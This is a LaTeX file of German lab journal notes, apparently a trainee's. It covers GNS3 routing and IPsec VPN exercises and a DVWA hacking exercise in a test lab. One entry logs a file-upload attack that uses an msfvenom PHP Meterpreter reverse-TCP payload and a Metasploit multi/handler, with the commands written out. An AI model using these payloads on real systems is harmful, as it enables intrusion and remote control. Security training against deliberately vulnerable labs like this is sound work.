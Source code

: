 \documentclass[english,runningheads,a4paper]{llncs}[2018/03/10]
\begin{document}
\subsection{10. Woche}
\subsubsection{04.05}
-andreas gns3 einführung gegeben
- sudo gns3restore hat gns3 virtualbox vm zerschossen, wieder zum informations screen mit zweimal exit oder logout
- kopieren der projekte von remote server zu lokal
-vorbereiten von mdk test mit bgp ausfallsichere routen
\subsubsection{05.05}
-nachbau eines VPN mit IPSec mittels blog tutorial beitrag \url{https://www.chennaicisco.com/2013/11/configure-site-to-site-vpn-in-cisco.html}
- paper zu vpn gelesen und nachgestellt \url{https://www.researchgate.net/publication/320536838_Implementation_of_IPsec-VPN_tunneling_using_GNS3}
-topologie in mdktest nachgestellt
-ip's und routingprotokoll rip aufgebaut, dann bei h0 und b0 die cryptoiskmp befehle übernommen
- ping von Qemu1 zu Qemu2 ging vorher nicht, nach der vpn einrichtung ging der ping nach kurzem aufbau von authentifizierung 
- leitung zwischen h0 und erstem isp router mit netz 30.0.0.1 über packet capture mittels wireshark inspiziert
- traffic ist als esp paket verschlüsselt
\subsubsection{06.05}
-zum vpn lernen gedacht von 192.168.183.156:8003 ein vpn einzurichten und das dann von meinen desktop zu verbinden mittels den remote server install script von gns3 ab dem vpn abschnitt \url{https://docs.gns3.com/1c2Iyiczy6efnv-TS_4Hc7p11gn03-ytz9ukgwFfckDk/}
-testlab per vpn mit dem mitarbeiter netz verbinden wurde aber nicht gutgeheißen
- andere aufgabe wäre mit kali linux bei der dvwa eine command injection auszuführen und dann über die meterpreter console portweiterleitungen von 3306 zu der mysql datenbank zu machen
-im proxmox ne kali linux vm erstellen um auf 192.168.183.156 zuzugreifen
- meterpreter zugriff hat geklappt \url{https://www.hackingarticles.in/hack-file-upload-vulnerability-dvwa-bypass-security/}
- mit elinks auf kali ohne gui den webzugriff zu DVWA, Datei hack.php hochgeladen, payload gestartet und danach auf \url{192.168.183.156/xss/DVWA/hackable/uploads/hack.php} zugegriffen, wodurch die meterpreter session entsteht
\begin{lstlisting}[language=bash]
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.183.183 lport=3333 -f raw
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.183.183
msf5 exploit(multi/handler) > set lport 3333
msf5 exploit(multi/handler) > run
\end{lstlisting}
-portforwarding zugriff auf mysql datenbank hat nicht funktioniert \url{https://www.hackingtutorials.org/metasploit-tutorials/metasploitable-3-port-forwarding/}
\end{document}
